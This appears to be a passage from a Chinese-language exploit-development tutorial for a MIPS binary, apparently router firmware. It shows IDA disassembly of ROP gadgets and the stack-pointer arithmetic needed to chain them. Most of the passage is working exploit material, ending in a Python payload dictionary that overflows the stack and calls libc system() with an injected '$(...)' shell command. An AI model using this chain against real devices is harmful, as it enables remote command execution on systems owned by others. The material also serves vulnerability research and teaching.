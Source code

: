 IDA 允许我们通过双击地址来检查指定地址的指令，在我们的例子中，双击 0x0007E8C8，它将带我们到这里：  
```
LOAD:0007EB5C loc_7EB5C:
LOAD:0007EB5C                 lw      $ra, 0x44+var_s18($sp)
LOAD:0007EB60                 lw      $s5, 0x44+var_s14($sp)
LOAD:0007EB64                 lw      $s4, 0x44+var_s10($sp)
LOAD:0007EB68                 lw      $s3, 0x44+var_sC($sp)
LOAD:0007EB6C                 lw      $s2, 0x44+var_s8($sp)
LOAD:0007EB70                 lw      $s1, 0x44+var_s4($sp)
LOAD:0007EB74                 lw      $s0, 0x44+var_s0($sp)
LOAD:0007EB78                 jr      $ra
LOAD:0007EB7C                 addiu   $sp, 0x60

```  
  
正如 0x0007E8C8 和 0007EB5C 所定义的，Action 和 Control Jump gadget 正如我们预期的那样；在 Action 和 Control Jump gadgets 之间，我们操纵跳转到的 gadget 还包含其他指令，例如这里，s1-s5 寄存器进一步影响我们溢出的堆栈内容；然而，最重要的是，即使在 jr $ra (0x44+var_s18($sp)) 指令之后，$sp 的修改仍然适用；这对我们意味着什么呢？这意味着我们有效载荷中的 $sp 指针需要重新构建，考虑到之前 gadget 引起的 $sp 上升或下降；例如，当我们的下一个 gadget 转到 0x0001B014，move $t9,$s4; jr 0x5C($sp) 时，$sp 已经上升了 0x60；实际的 0x5C($sp) 将是 sp_offset + 0x60 + 0x1C + 0x18 = sp_offset + 0x60 + 0x34；这同样适用于我们的 gadget1，它也通过 +0x38 改变了 $sp 指针：  
```
LOAD:0001B014                 move    $t9, $s4
LOAD:0001B018                 lw      $ra, 0x1C+var_s18($sp)
LOAD:0001B01C                 lw      $s5, 0x1C+var_s14($sp)
LOAD:0001B020                 lw      $s4, 0x1C+var_s10($sp)
LOAD:0001B024                 lw      $s3, 0x1C+var_sC($sp)
LOAD:0001B028                 lw      $s2, 0x1C+var_s8($sp)
LOAD:0001B02C                 lw      $s1, 0x1C+var_s4($sp)
LOAD:0001B030                 lw      $s0, 0x1C+var_s0($sp)
LOAD:0001B034                 jr      $ra
LOAD:0001B038                 addiu   $sp, 0x38

```  
  
此时，修改了 $sp 后，我们可以使用新的 $sp 偏移重新构建我们的有效载荷，该偏移由这些 gadget 的调用顺序决定，导致我们的 rop chain 为：lw $s4 0x48; jr 0x5c -> move $t9,$s4 jr 0x34($sp) -> addiu $a0,$sp,0x28+var_C | jr 0x24($sp); 使用定义的 $sp  
- sp_offset -> 0x7f: defined at sink.  
  
- sp2 -> 0x60 : addiu $sp, 0x60.  
  
- sp3 -> 0x38 : addiu $sp, 0x38.  
  
```

        _payload = {
                ret_offset: libc_base + lw_s4_0x48_JR_5Csp, # gad0
                (sp_offset + 0x48): t9_target,
                (sp_offset + 0x38 + 0x18): f'{c2}'.encode(), # $s6, 0x38+var_s18($sp)
                (sp_offset + 0x5c): libc_base + t9_EQ_s4_JR_1C_p_18, # gad1
                (sp_offset + 0x60 + 0x1C + 0x10): f'{c1}'.encode(), 
                 # flow2 $s4-$s5 (caller), this is set via previous control-ed registers
                (sp_offset + 0x60 + 0x34): libc_base + a0_EQ_sp24_c_JR_24sp, 
                (sp_offset + 0x60 + 0x38 + 0x24): libc_base + _system, # gad2
                (sp_offset + 0x60 + 0x38 + 0x24 + 0xC - 0x7): f'$({c3});'.encode()
            }

```  
  